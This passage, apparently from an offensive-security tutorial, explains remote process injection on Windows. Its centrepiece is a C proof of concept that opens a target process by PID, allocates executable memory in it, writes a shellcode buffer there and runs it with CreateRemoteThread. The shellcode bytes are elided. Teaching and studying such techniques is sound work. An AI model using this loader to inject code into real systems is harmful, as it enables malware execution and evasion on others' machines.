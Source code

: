 Now that we have created a thread to execute our payload, we just have to wait for it as mentioned previously. but we also have to tidy things up after we have finished executing our payload.\
Here's the final implementation.

#### 5. Remote Process Injection PoC

{% code title="ProcessInjection.c" fullWidth="false" %}
```c
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\xeb\x27....";

int main(int argc, char* argv[]) {
	
	if (argc < 2) {
		printf("[*] Usage: %s <PID> ", argv[0]);
		return 0;
	}
	
	DWORD		PID = NULL;
	PVOID		pAddress;
	HANDLE		hProcess = NULL,
		hThread = NULL;

	PID = atoi(argv[1]);
	printf("Getting Handle to the Process with PID: %d\n", PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	pAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, pAddress, shellcode, sizeof(shellcode), 0);
	hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL);
	WaitForSingleObject(hThread, INFINITE);
	
	return 0;
}


```
{% endcode %}

### Error Handling

It is important to handle errors properly and also this helps us to debug things and understand the actual problem we have in case we face any kind of error. Here we see the MSDN document for [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) which helps us gain insight on what to expect when calling the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function.\

